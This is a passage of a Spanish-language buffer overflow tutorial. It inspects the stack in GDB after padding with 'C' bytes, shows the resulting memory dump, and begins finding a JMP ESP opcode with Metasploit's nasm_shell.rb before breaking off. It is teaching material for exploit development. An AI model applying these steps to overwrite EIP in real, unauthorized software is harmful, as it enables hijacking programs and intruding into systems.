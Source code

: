 **Resultado esperado:** En GDB, verifica la pila (`stack`) para comprobar que los `CCCC` aparecen después del `EIP`. Usa este comando (`x/300wx $esp`)

Si ejecutamos `x/300wx $esp` para ver la información que hay en el pila vemos que nuestras `Cs` se están introduciendo al principio de la pila (`stack`), por lo que en este punto lo que debemos hacer es encontrar un `OpCode` el cual nos permita realizar un salto al `ESP`, es decir al principio de la pila.

```shell
x/300wx $esp
```

Info:

```
0xffffce40:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffce50:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffce60:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffce70:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffce80:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffce90:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcea0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffceb0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcec0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffced0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcee0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcef0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcf00:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcf10:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcf20:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcf30:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcf40:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcf50:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcf60:     0x43434343      0x43434343      0x43434343      0x00300a0d
0xffffcf70:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcf80:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcf90:     0x43434343      0x43434343      0x43434343      0x43434343
```

Vemos que se esta realizando todo correctamente al principio de la pila y llenando esos huecos con la `C` que se corresponden con `0x43434343`.

### Identificación del OpCode para JMP ESP

Para redirigir la ejecución al principio de la pila (`ESP`), necesitamos identificar el código de operación (`opcode`) de un salto (`JMP ESP`). Usamos `nasm_shell.rb`:

```shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

Nos metera en una shell interactiva de la herramienta:

```
nasm >
```

